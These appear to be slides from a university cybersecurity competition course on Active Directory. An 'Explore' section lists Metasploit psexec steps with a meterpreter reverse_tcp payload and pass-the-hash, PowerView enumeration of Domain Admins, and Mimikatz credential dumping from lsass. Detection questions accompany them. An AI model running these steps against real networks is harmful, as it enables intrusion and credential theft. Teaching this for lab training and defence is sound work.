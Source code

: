 ## Cybersecurity Competition Training

CPSC 4810



### Introduction Questions

What is the AD responsible for?



### Introduction Questions

Why is it so important to secure AD/DS?



### Introduction Questions

What does DNS do?



### Introduction Questions

Why is DNS needed for an AD installation?



### Explore

1. SMBDomain = hacker, SMBUser = itadmin, SMBPass = Password123, windows/x64/meterpreter/reverse_tcp
2. Use PSExec in Metasploit to log into the machine
3. Use Mimikatz to get NTLM hash for Administrator user
4. Use PowerView to find Domain Admins

Note:
1. exploit/windows/smb/psexec_psh
2. set SMBDomain cucyber
3. set SMBUSER Administrator
4. set SMBPASS <hash>
5. set payload windows/x64/meterpreter/reverse_tcp
6. run
7. load powershell
8. https://github.com/PowerShellMafia/PowerSploit/raw/master/Recon/PowerView. ps1
9. powershell_import /root/Desktop/PowerView.ps1
10. powershell_execute Get-NetDomain
11. load kiwi
12. creds_all



### Dumping credentials

* Data is stored in lsass.exe
* Mimikatz reads from lsass.exe memory

Note:
* Point 2 is actually a lie, but that's the easiest way of describing it
* How can this be prevented?
  * It can't really unless Microsoft fixes it
  * In the mean time, just watch for processes that are reading memory from lsass



### PSExec

* Like Telnet or SSH for Windows
* Part of sysinternals
* Communication through SMB
* If psexec is used, hard to tell if legit or not

Note:
* It's apart of homework to find out how psexec usage can be found
  * Hint: it has to do with Sysmon


### PowerView

* Windows host enumeration
* `Get-NetGroup "Domain Admins" | Get-NetGroupMember`
* How does this information help us? (Think Mimikatz)
* How can this be detected if used on the network?



#  Questions?
